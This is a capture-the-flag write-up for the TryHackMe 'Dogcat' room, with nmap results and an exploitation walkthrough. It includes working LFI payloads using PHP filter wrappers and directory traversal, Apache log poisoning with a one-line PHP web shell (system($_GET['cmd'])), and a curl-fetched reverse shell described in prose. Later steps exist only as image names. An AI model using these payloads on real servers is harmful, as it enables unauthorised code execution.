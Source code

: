 # Dogcat 

[Link to room](https://tryhackme.com/room/dogcat)

## Enumeration

```nmap
# Nmap 7.80 scan initiated Sun Jun 28 04:10:22 2020 as: nmap -sC -sV -oN nmap.txt 10.10.129.248
Nmap scan report for 10.10.129.248
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 28 04:11:27 2020 -- 1 IP address (1 host up) scanned in 65.09 seconds
```

#### Web Exploitation

After a little research i find out a way to bypass the php filter [check out this site](https://www.php.net/manual/en/wrappers.php.php)

Now lets read the index page, http://dogcat.thm/?view=php://filter/read=convert.base64-encode/resource=./dog/../index

1.png
but this is a base-64 encoded lets decode it
2.png
lets see whats in the index page 
3.png
The site checks if the “ext” parameter was provided, and if not it adds “.php” by default to our filename

1. What is flag 1?

http://dogcat.thm/?view=php://filter/read=convert.base64-encode/resource=./dog/../flag
4.png

2. What is flag 2?

According to our nmap scan the server runs on Apache so let’s try to get code execution with log poisoning

The access log path for Apache is “/var/log/apache2/access.log”
lets try to read logs `/?view=./dog/../../../../../../../var/log/apache2/access.log&ext`

6.png
you can check page to source to better understand the logs
We can see that next to the route there is the User-Agent parameter

***lets insert a small php script for code excution***
i use `user agent switcher addon` to put the php code `<?php system($_GET['cmd']);?>`

7.png

Now lets check if that works `view-source:http://dogcat.thm/?view=./dog/../../../../../../../var/log/apache2/access.log&ext&cmd=whoami`

8.png

I tried getting a reverse shell by executing a command but that doesn't works so i use curl to download a script from my local computer and executed it from webpage to get the reverse shell.So lets try it

First we will run a python server and then we will use curl command to output the shell into shell.php on the server 

9.png
10.png
Now lets execute the shell.php by simply navigating to it
11.png
12.png

#### Privilege Escalation

13.png

2. What is flag 2?

14.png

3. What is flag 3?

15.png

#### Escaping Docker

16.png

4. What is Question 4?

17.png
